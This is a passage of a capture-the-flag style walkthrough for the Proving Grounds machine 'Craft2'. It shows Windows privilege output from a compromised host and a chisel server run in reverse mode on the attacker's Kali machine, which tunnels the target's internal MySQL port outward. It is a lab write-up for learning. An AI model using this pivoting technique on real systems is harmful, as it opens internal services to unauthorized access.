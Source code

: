 ```powershell
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


C:\xampp\htdocs>
```
{: .nolineno}

Now I checked the internal running services ports and found mysql running so lets user chisel to port forward it and access it externally too 🔽

![Image](Pasted%20image%2020240616153248.png)

I setup the server on the attacker machine on port 8000 🔻
```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Craft2]
└─$ /opt/Tools/chisel server --port 8000 --reverse
2024/06/16 11:16:17 server: Reverse tunnelling enabled
2024/06/16 11:16:17 server: Fingerprint FBkf86aPjEYyeLSorebi4DmA4fyAw5ZoWqWNi7mWvyc=
2024/06/16 11:16:17 server: Listening on http://0.0.0.0:8000
2024/06/16 11:17:14 server: session#1: Client version (1.9.1) differs from server version (1.7.7)
2024/06/16 11:17:14 server: session#1: tun: proxy#R:3306=>3306: Listening

```
{: .nolineno}
